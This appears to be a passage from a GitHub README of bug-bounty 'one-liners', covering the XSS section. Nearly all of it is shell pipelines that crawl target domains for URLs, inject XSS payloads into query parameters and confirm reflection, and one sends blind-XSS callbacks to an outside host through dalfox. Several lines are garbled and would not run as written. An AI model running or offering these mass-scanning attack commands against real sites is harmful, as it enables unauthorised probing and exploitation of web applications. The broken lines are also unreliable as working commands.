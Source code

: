 
## XSS:

[](https://github.com/0xPugal/One-Liners#xss)

### Knoxss mass hunting

[](https://github.com/0xPugal/One-Liners#knoxss-mass-hunting)

```
file=$1; key="API_KEY"; while read line; do curl https://api.knoxss.pro -d target=$line -H "X-API-KEY: $key" -s | grep PoC; done < $file
```

```
cat domains.txt | (gau || hakrawler || waybackurls || katana) | grep -Ev "\.(jpeg|jpg|png|ico)$" | uro | grep =  | qsreplace "<img src=x onerror=alert(1)>" | httpx -silent -nc -mc 200 -mr "<img src=x onerror=alert(1)>"
```

```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep '=' | qsreplace hack\" -a | while read url;do target-$(curl -s -l $url | egrep -o '(hack" | hack\\")'); echo -e "Target : \e[1;33m $url\e[om" "$target" "\n -"; done I sed 's/hack"/[xss Possible] Reflection Found/g'
```

```
cat hosts.txt | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/?name={{this.constructor.constructor('alert(\"foo\")')()}}" -mr "name={{this.constructor.constructor('alert(" 
```

```
cat targets.txt | (gau || hakrawler || waybackurls || katana) | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```

```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```

```
cat urls.txt | grep "=" | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours.xss.ht
```

```
cat targets.txt | ffuf -w - -u "FUZZ/sign-in?next=javascript:alert(1);" -mr "javascript:alert(1)" 
```

```
cat subs.txt | awk '{print $3}'| httpx -silent | xargs -I@ sh -c 'python3 http://xsstrike.py -u @ --crawl'
```

---

## Hidden Dirs:
